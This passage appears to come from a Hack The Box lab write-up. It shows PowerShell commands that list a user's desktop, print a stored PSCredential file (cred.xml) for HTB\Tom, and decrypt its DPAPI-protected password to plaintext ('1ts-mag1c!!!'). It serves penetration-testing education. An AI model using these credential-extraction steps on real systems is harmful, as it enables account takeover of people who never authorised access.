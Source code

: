 Listing the files in nico's desktop shows a file of interest

```
PS C:\Users\nico\Desktop> ls


    Directory: C:\Users\nico\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-ar--        28/10/2017     00:59       1468 cred.xml                                                                  
-ar--        28/10/2017     00:40         32 user.txt                                                                  


PS C:\Users\nico\Desktop> cat cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

I proceed to uncover what appears to be a password string

```
PS C:\Users\nico\Desktop> $pass = '01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692' | convertto-securestring
PS C:\Users\nico\Desktop> $user = 'HTB\tom'
PS C:\Users\nico\Desktop> $cred = New-Object System.Management.Automation.PSCredential $user,$pass
PS C:\Users\nico\Desktop> $cred.getnetworkcredential() | fl


UserName       : tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```
